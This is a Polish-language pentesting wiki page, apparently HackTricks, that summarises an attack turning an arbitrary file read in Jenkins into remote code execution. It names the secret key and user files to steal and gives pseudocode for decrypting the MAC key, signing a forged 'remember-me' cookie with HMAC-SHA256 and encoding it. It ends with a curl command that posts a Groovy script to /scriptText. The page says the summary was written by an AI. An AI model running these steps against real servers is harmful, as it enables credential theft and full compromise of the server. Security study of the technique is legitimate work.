 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

W tym wpisie na blogu można znaleźć świetny sposób na przekształcenie podatności Local File Inclusion w Jenkins w RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

To jest podsumowanie stworzone przez AI części wpisu, w której wykorzystanie arbitralnego ciasteczka jest nadużywane do uzyskania RCE poprzez lokalne odczytywanie plików, aż znajdę czas na stworzenie własnego podsumowania:

### Wymagania wstępne ataku

- **Wymaganie funkcji:** "Zapamiętaj mnie" musi być włączone (domyślne ustawienie).
- **Poziomy dostępu:** Atakujący potrzebuje uprawnień Overall/Read.
- **Dostęp do sekretów:** Możliwość odczytu zarówno zawartości binarnej, jak i tekstowej z kluczowych plików.

### Szczegółowy proces eksploatacji

#### Krok 1: Zbieranie danych

**Pobieranie informacji o użytkowniku**

- Uzyskaj konfigurację użytkownika i sekrety z `$JENKINS_HOME/users/*.xml` dla każdego użytkownika, aby zebrać:
- **Nazwa użytkownika**
- **Ziarno użytkownika**
- **Znacznik czasu**
- **Hash hasła**

**Ekstrakcja klucza sekretnego**

- Wyodrębnij klucze kryptograficzne używane do podpisywania ciasteczka:
- **Klucz sekretu:** `$JENKINS_HOME/secret.key`
- **Klucz główny:** `$JENKINS_HOME/secrets/master.key`
- **Plik klucza MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Krok 2: Fałszowanie ciasteczka

**Przygotowanie tokena**

- **Oblicz czas wygaśnięcia tokena:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Dodaje jedną godzinę do bieżącego czasu
```

- **Konkatenacja danych dla tokena:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**Deszyfrowanie klucza MAC**

- **Deszyfruj plik klucza MAC:**

```javascript
key = toAes128Key(masterKey)  // Konwertuj klucz główny na format klucza AES128
decrypted = AES.decrypt(macFile, key)  // Deszyfruj plik .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Obliczanie podpisu**

- **Oblicz HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey) // Oblicz HMAC używając tokena i klucza MAC
tokenSignature = bytesToHexString(mac) // Konwertuj MAC na ciąg szesnastkowy
```

**Kodowanie ciasteczka**

- **Generuj końcowe ciasteczko:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Koduj dane ciasteczka w Base64
```

#### Krok 3: Wykonanie kodu

**Uwierzytelnianie sesji**

- **Pobierz tokeny CSRF i sesji:**
- Wykonaj żądanie do `/crumbIssuer/api/json`, aby uzyskać `Jenkins-Crumb`.
- Przechwyć `JSESSIONID` z odpowiedzi, który będzie używany w połączeniu z ciasteczkiem "remember-me".

**Żądanie wykonania polecenia**

- **Wyślij żądanie POST z skryptem Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Skrypt Groovy może być użyty do wykonywania poleceń na poziomie systemu lub innych operacji w środowisku Jenkins.

Przykład polecenia curl pokazuje, jak wykonać żądanie do Jenkins z niezbędnymi nagłówkami i ciasteczkami, aby bezpiecznie wykonać dowolny kod.

{{#include ../../banners/hacktricks-training.md}}
